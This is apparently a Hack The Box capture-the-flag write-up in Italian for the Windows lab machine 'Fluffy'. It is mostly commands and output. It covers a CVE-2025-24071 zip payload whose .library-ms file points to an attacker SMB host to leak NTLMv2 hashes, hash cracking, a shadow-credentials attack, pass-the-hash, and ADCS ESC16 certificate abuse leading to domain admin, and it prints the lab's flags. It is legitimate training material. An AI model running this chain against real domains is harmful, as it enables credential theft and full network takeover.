


# Fluffy



Machine Information:

```text

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!

```

## Enumerazione Iniziale

Si avvia una scansione **nmap** per una prima enumerazione dei servizi e delle porte attive.

```bash

$ nmap -sV -sC 10.x.x.x                                                                                                                                                               
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 13:08 EDT                                                                                                                              
Nmap scan report for 10.x.x.x                                                                                                                                                           
Host is up (0.064s latency).                                                                                                                                                                 
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-03 00:08:41Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-03T00:10:04+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb 
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb 
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-09-03T00:10:04+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-03T00:10:04+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb 
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb 
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-09-03T00:10:04+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-03T00:09:23
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 97.23 seconds

```

I servizi disponibili sono:

- `Simple DNS Server` alla porta **53**
- `Kerberso` alla porta **88**
- `LDAP` alla porta **139**
- `SMB` alla porta **445**
- `WinRM` alla porta **5985**

Questi elementi indicano che la macchina fa uso di **Active Directory**.

Si aggiorna il file `/etc/hosts` aggiungendo un record in cui si associano all'indirizzo della macchina target `10.x.x.x` il **domain name** `fluffy.htb` e il **domain controllet** `DC01.fluffy.htb`.

```bash

$ echo '10.x.x.x fluffy.htb DC01.fluffy.htb' | sudo tee -a /etc/hosts

```

Con le credenziali `j.fleischman:J0elTHEM4n1990!` si effettua una enumerazione delle **shares** accessibili.

```bash

$ nxc smb fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares               
SMB         10.x.x.x   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.x.x.x   445    DC01             [*] Enumerated shares
SMB         10.x.x.x   445    DC01             Share           Permissions     Remark
SMB         10.x.x.x   445    DC01             -----           -----------     ------
SMB         10.x.x.x   445    DC01             ADMIN$                          Remote Admin
SMB         10.x.x.x   445    DC01             C$                              Default share
SMB         10.x.x.x   445    DC01             IPC$            READ            Remote IPC
SMB         10.x.x.x   445    DC01             IT              READ,WRITE      
SMB         10.x.x.x   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.x.x.x   445    DC01             SYSVOL          READ            Logon server share 

```

L'utente `j.fleischman` ha accessso in lettura e scrittura alla share **IT**. 

```bash

$ impacket-smbclient j.fleischman:'J0elTHEM4n1990!'@10.x.x.x
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
# use IT
# ls *
drw-rw-rw-          0  Tue Sep  2 20:35:40 2025 .
drw-rw-rw-          0  Tue Sep  2 20:35:40 2025 ..
drw-rw-rw-          0  Fri May 16 10:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 10:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 10:51:49 2025 KeePass-2.58
-rw-rw-rw-    3225346  Fri May 16 10:51:49 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 10:31:07 2025 Upgrade_Notice.pdf
# mget *
[*] Downloading Everything-1.4.1.1026.x64.zip
[*] Downloading KeePass-2.58.zip
[*] Downloading Upgrade_Notice.pdf

```

Si analizzano i file ricavati.

```bash

$ file *
Everything-1.4.1.1026.x64.zip: Zip archive data, made by v2.0, extract using at least v2.0, last modified Aug 01 2024 18:43:54, uncompressed size 2265104, method=deflate
KeePass-2.58.zip:              Zip archive data, made by v6.3, extract using at least v2.0, last modified Mar 04 2025 10:26:42, uncompressed size 768478, method=deflate
Upgrade_Notice.pdf:            PDF document, version 1.4, 2 page(s)

```

Il file `Upgrade_Notice.pdf` contiene il seguente contenuto:


Questo file contiene una lista delle CVEs. 

Per la **CVE-2025-24071** si e' trovata una **Proof-of-Concept** che sfrutta una vulnerabilita' di `explorer.exe` che permetterebbe all'attaccante di ottenere **NetNTLMv2 hash** della vittima semplicemente con l'estrazione di un file **zip**.

> CVE-2025-24071: Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.
>  
> PoC: [https://github.com/Marcejr117/CVE-2025-24071_PoC/tree/main](https://github.com/Marcejr117/CVE-2025-24071_PoC/tree/main)

```bash

$ python3 PoC.py exploit 10.10.16.28

```
Lo script genera un file `exploit.zip` contenente il file `exploit.library-ms`.

`exploit.library-ms`

```xml

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.16.28\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>

```

Il file `exploit.zip` viene caricato in IT.

```bash

# put exploit.zip                                                                                                                                            
# ls                                                                                                                                                         
drw-rw-rw-          0  Tue Sep  2 23:16:43 2025 .                                                                                                            
drw-rw-rw-          0  Tue Sep  2 23:16:43 2025 ..                                                                                                           
drw-rw-rw-          0  Fri May 16 10:51:49 2025 Everything-1.4.1.1026.x64                                                                                    
-rw-rw-rw-    1827464  Fri May 16 10:51:49 2025 Everything-1.4.1.1026.x64.zip                                                                                
-rw-rw-rw-        322  Tue Sep  2 23:16:43 2025 exploit.zip
drw-rw-rw-          0  Fri May 16 10:51:49 2025 KeePass-2.58
-rw-rw-rw-    3225346  Fri May 16 10:51:49 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 10:31:07 2025 Upgrade_Notice.pdf

```

Si utilizza **Responder** per ottenere le credenziali dell'utente che estrarra' il file condiviso.

```bash

$ sudo responder -I tun0

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.x.x.x
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:e846f6b85affe4d4:298CFC1A346935AEA9F9FFF9A9425035:010100000000000080BC10B7241CDC015EC0C4B0D7BC90D70000000002000800510042004800470001001E00570049004E002D004F005A00550039005100510048004A0049005400370004003400570049004E002D004F005A00550039005100510048004A004900540037002E0051004200480047002E004C004F00430041004C000300140051004200480047002E004C004F00430041004C000500140051004200480047002E004C004F00430041004C000700080080BC10B7241CDC010600040002000000080030003000000000000000010000000020000068E8CDAB89BB7F6C7493691A976C6CCD7896D39BEA98E3306C8E5991732E68E50A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00320038000000000000000000

```

Ottenuto **NTLMv2 hash** dell'utente `p.agila` si tenta di craccarlo con **HashCat**.

```bash

$ hashcat -a 0 -m 5600 pagila.hash /usr/share/wordlists/rockyou.txt.gz --show
prometheusx-303

```

Si verifica la validita' delle credenziali `p.agila:prometheusx-303`.

```bash

$ nxc smb fluffy.htb -u p.agila -p 'prometheusx-303'         
SMB         10.x.x.x   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x   445    DC01             [+] fluffy.htb\p.agila:prometheusx-303

```

Si utilizza **rusthound** per l'**information gathering** del **Active Directory domain**.

```bash

$ rusthound-ce -d fluffy.htb -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -z

```

Si analizzano e visualizzano permessi e possibili *path* di attacco in *Active Directory* tramite **BloodHound**.



L'utente `p.agila` e' membro del gruppo `Secrvie Account Manager` che possiede il **full control** del gruppo `Service Account`, che ha sua volta ha permessi di **GenericWrite** sui service account come `WinRM_svc`.


Si effettua una **Shadow Credential Attack**.

```bash

$ # Exploit the GenericAll privilege to add member on Service Accounts Group
$ net rpc group addmem 'Service Accounts' 'p.agila' --user='p.agila' --password='prometheusx-303' -I 10.x.x.x

$ # Read the msDs-KeyCredentialLink attribute for target account
(pywhisker) $ pywhisker -d 'dc01.fluffly.htb' --dc-ip 10.x.x.x -u 'p.agila' -p 'prometheusx-303' --target 'winrm_svc' --action 'list' 
[*] Searching for the target account                                                                                                                                                         
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb                                                                                                                            
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute                                                                                

$ # Add a new shadow credential (certificate) for target account and export it as PEM files
(pywhisker) $ pywhisker -d 'dc01.fluffly.htb' --dc-ip 10.x.x.x -u 'p.agila' -p 'prometheusx-303' --target 'winrm_svc' --action 'add' --filename key --export PEM                       
[*] Searching for the target account                                                                                                                                                         
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb                                                                                                                            
[*] Generating certificate                                                                                                                                                                   
[*] Certificate generated                                                                                                                                                                    
[*] Generating KeyCredential                                                                                                                                                                 
[*] KeyCredential generated with DeviceID: 9cb06355-934c-5719-538f-a859d8ae8c2e                                                                                                              
[*] Updating the msDS-KeyCredentialLink attribute of winrm_svc                                                                                                                               
[+] Updated the msDS-KeyCredentialLink attribute of the target object                                                                                                                        
[+] Saved PEM certificate at path: key_cert.pem                                                                                                                                              
[+] Saved PEM private key at path: key_priv.pem                                                                                                                                              
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

$ # Disable updating date time from NTP (Network Time Protocol)
$ sudo timedatectl set-ntp off

$ # Clock skew with target machine
$ sudo rdate -n 10.x.x.x
Wed Sep  3 11:48:44 EDT 2025(PKINITtools) 

$ # Request a Kerberos TGT for target account using the shadow credential's certificate
(PKINITtools) $ python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache 
2025-09-03 11:52:00,601 minikerberos INFO     Loading certificate and key from file                                                                                                                       
2025-09-03 11:52:00,615 minikerberos INFO     Requesting TGT                                                                                                                                              
2025-09-03 11:52:22,645 minikerberos INFO     AS-REP encryption key (you might need this later):                                                                                                          
2025-09-03 11:52:22,645 minikerberos INFO     10afab78d47946970e4142a99a6cd8fa111c5c86ca4b779d4f6f39966295a2f3                                                                                            
2025-09-03 11:52:22,655 minikerberos INFO     Saved TGT to file

$ # Set the Kerberos ticket environment variable to use the obtained TGT
export KRB5CCNAME=winrm_svc.ccache

$ # Extract the NTLM hash of winrm_svc from the Kerberos TGT
(PKINITtools) $ python3 getnthash.py -key '10afab78d47946970e4142a99a6cd8fa111c5c86ca4b779d4f6f39966295a2f3' fluffy.htb/winrm_svc   
/home/kali/Desktop/Tools/PKINITtools/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767

$ # Pass-the-Hash
$ nxc smb fluffy.htb -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'
SMB         10.x.x.x   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x   445    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767
 
```

Si sono ottenute le credenziali `winrm_svc:33bd09dcd697600edf6b3a7af4875767`

## User.txt

Si accede tramite **evil-winrm** al profilo `winrm_svc` e si ottiene la **user.txt**.

```bash

$ evil-winrm -i 10.x.x.x -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'

```

```powershell                                        
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/2/2025   5:07 PM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
38a2adc608f5fac1ce79e2777b43f8d1

```

## Privilege Escalation

L'utente `winrm_svc` possiede i privilegi di **GenericWrite** su `ca_svc` che e' membro del gruppo `Cert Publishers`.

Si procede con una enumerazione di **Active Directory Cetificate Services**.

```bash

$ certipy-ad find -u 'ca_svc@fluffy.htb' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.x.x.x -vulnerable -stdout                                                                            
Certipy v5.0.2 - by Oliver Lyak (ly4k)                                                                                                                                                                    
                                                                                                                                                                                                          
[*] Finding certificate templates                                                                                                                                                                         
[*] Found 33 certificate templates                                                                                                                                                                        
[*] Finding certificate authorities                                                                                                                                                                       
[*] Found 1 certificate authority                                                                                                                                                                         
[*] Found 11 enabled certificate templates                                                                                                                                                                
[*] Finding issuance policies                                                                                                                                                                             
[*] Found 14 issuance policies                                                                                                                                                                            
[*] Found 0 OIDs linked to templates                                                                                                                                                                      
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP                                                                                                                                              
[!] Failed to connect to remote registry. Service should be starting now. Trying again...                                                                                                                 
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'                                                                                                                                          
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'                                                                                                                                   
[!] Error checking web enrollment: timed out                                                                                                                                                              
[!] Use -debug to print a stacktrace                                                                                                                                                                      
[!] Error checking web enrollment: timed out                                                                                                                                                              
[!] Use -debug to print a stacktrace                                                                                                                                                                      
[*] Enumeration output
Certificate Authorities                                                                                                                                                                                   
  0                                                                                                                                                                                                       
    CA Name                             : fluffy-DC01-CA                                                                                                                                                  
    DNS Name                            : DC01.fluffy.htb                                                                                                                                                 
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb                                                                                                                            
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5                                                                                                                                
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00                                                                                                                                       
    Certificate Validity End            : 3024-04-17 16:11:16+00:00                                                                                                                                       
    Web Enrollment                                                                                                                                                                                        
      HTTP                                                                                                                                                                                                
        Enabled                         : False                                                                                                                                                           
      HTTPS                                                                                                                                                                                               
        Enabled                         : False                                                                                                                                                           
    User Specified SAN                  : Disabled                                                                                                                                                        
    Request Disposition                 : Issue                                                                                                                                                           
    Enforce Encryption for Requests     : Enabled                                                                                                                                                         
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy                                                                                                                    
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2                                                                                                                                            
    Permissions                                                                                                                                                                                           
      Owner                             : FLUFFY.HTB\Administrators                                                                                                                                       
      Access Rights                                                                                                                                                                                       
        ManageCa                        : FLUFFY.HTB\Domain Admins                                                                                                                                        
                                          FLUFFY.HTB\Enterprise Admins                                                                                                                                    
                                          FLUFFY.HTB\Administrators                                                                                                                                       
        ManageCertificates              : FLUFFY.HTB\Domain Admins                                                                                                                                        
                                          FLUFFY.HTB\Enterprise Admins                                                                                                                                    
                                          FLUFFY.HTB\Administrators                                                                                                                                       
        Enroll                          : FLUFFY.HTB\Cert Publishers                                                                                                                                      
    [!] Vulnerabilities                                                                                                                                                                                   
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates

```

> **ESC16 - Security Extension Disabled on CA (Globally)**
> The primary impact is that if Domain Controllers are not operating in "Full Enforcement" mode for strong certificate binding (StrongCertificateBindingEnforcement registry key value is not 2), they will fall back to weaker, legacy certificate mapping methods (e.g., based on UPN or DNS name found in the certificate's SAN).
> Source [https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

`ESC16`


```bash

$ # 1. Change the victim account's UPN to match a target privileged account's sAMAccountName.
$ certipy-ad account -u 'winrm_svc@fluffy.htb' -hashes '33bd09dcd697600edf6b3a7af4875767' -dc-ip 10.x.x.x -upn 'administrator' -user 'ca_svc' update

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

$ # 2. Request the certificate as the victim user from a suitable authentication template
$ certipy-ad req -u 'ca_svc@dc01.fluffy.htb' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -ca 'fluffy-DC01-CA' -template User -upn 'administrator' -dc-ip 10.x.x.x

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 16
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

$ # 3. Revert the victim account's UPN
$ certipy-ad account -u 'winrm_svc@fluffy.htb' -hashes '33bd09dcd697600edf6b3a7af4875767' -dc-ip 10.x.x.x -upn 'ca_svc@$dc01.fluffy.htb' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@$dc01.fluffy.htb
[*] Successfully updated 'ca_svc'

$ # 4. Authenticate as the target account 
$ certipy-ad auth -dc-ip 10.x.x.x -pfx 'administrator.pfx' -username 'administrator' -domain 'fluffy.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator' 
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e

$ # Try the credentials
$ nxc smb fluffy.htb -u 'administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e'
SMB         10.x.x.x   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x   445    DC01             [+] fluffy.htb\administrator:8da83a3fa618b6e3a00e93f676c92a6e (Pwn3d!)

```

## Root.txt

Si accede con le credenziali `administrator:8da83a3fa618b6e3a00e93f676c92a6e` tramite **evil-winrm** e si accede al file **root.txt**.

```bash

$ evil-winrm -i 10.x.x.x -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'

```

```poweshell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/2/2025   5:07 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
edf24c59c38303336af359417fb677bf

```
---

